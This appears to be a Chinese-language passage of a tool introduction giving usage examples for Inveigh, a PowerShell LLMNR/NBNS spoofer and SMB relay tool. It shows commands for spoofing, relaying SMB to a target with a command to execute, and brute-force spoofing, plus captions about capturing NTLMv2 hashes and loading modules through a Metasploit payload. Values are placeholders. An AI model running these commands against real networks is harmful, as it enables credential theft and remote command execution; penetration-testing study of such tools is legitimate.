 **操作示例：**

在默认配置下运行：

Invoke-Inveigh

加载和运行功能模块：

Import-Module ./Inveigh.ps1;Invoke-Inveigh

在运行中加入相应参数（使用“Get-Help -parameter * Invoke-Inveigh”命令来获取完整的参数帮助列表）：

Invoke-Inveigh -IP 'local IP' -SpooferIP '输入本地或远程主机的IP地址' -LLMNR Y/N -NBNS Y/N -NBNSTypes 00,03,20,1B -HTTP Y/N -HTTPS Y/N -SMB Y/N -Repeat Y/N -ConsoleOutput Y/N -FileOutput Y/N -OutputDir '输入有效的文件路径'

在Invoke-Inveigh中启用SMB中继，并运行程序：

Invoke-Inveigh -SMBRelay Y -SMBRelayTarget '输入有效的SMB目标IP地址' -SMBRelayCommand "输入可用的控制命令"

运行SMB中继（Invoke-InveighRelay）：

Invoke-InveighRelay -SMBRelayTarget '输入有效的SMB目标IP地址' -SMBRelayCommand "输入可用的控制命令"

利用Invoke-InveighBruteForce来对目标用户进行攻击：

Invoke-InveighBruteForce -SpooferTarget '输入有效的目标IP地址'

**操作界面截图**

Invoke-Inveigh控制台的实时界面，并启用了文件输出功能。

[![](https://p5.ssl.qhimg.com/t0192f490dbc7e1936a.png)](https://p5.ssl.qhimg.com/t0192f490dbc7e1936a.png)

利用Get-InveighNTLMv2获取NTLM2的挑战／应答哈希。

[![](https://p3.ssl.qhimg.com/t01374c30871744272e.png)](https://p3.ssl.qhimg.com/t01374c30871744272e.png)

SMB应答信息

[![](https://p3.ssl.qhimg.com/t016803c895c742160c.png)](https://p3.ssl.qhimg.com/t016803c895c742160c.png)

利用Metasploit的payload来引入并运行其他的功能模块。

[![](https://p2.ssl.qhimg.com/t01ccf5705fa00b6ed9.png)](https://p2.ssl.qhimg.com/t01ccf5705fa00b6ed9.png)

**LLMNR/NBNS欺骗原理可以参考: http://drops.wooyun.org/tips/11086**
